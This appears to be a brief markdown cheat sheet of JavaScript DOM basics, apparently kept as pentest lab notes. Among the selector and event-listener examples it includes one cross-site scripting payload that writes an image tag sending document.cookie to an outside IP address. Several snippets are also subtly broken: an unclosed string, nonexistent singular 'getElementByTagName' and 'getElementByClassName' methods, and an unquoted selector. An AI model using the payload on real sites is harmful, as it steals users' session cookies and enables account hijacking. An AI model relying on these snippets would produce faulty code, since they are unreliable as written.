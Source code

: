 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> 
> document.getElementById('1');
> 
> document.getElementByTagName('div');
> 
> document.getElementByClassName('list-items');
> 
> document.querySelector(#main-heading);
> 
> document.querySelectorAll('div');
> 
> 
> document.write('something');
> 
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects

> window.alert('1');
>
#

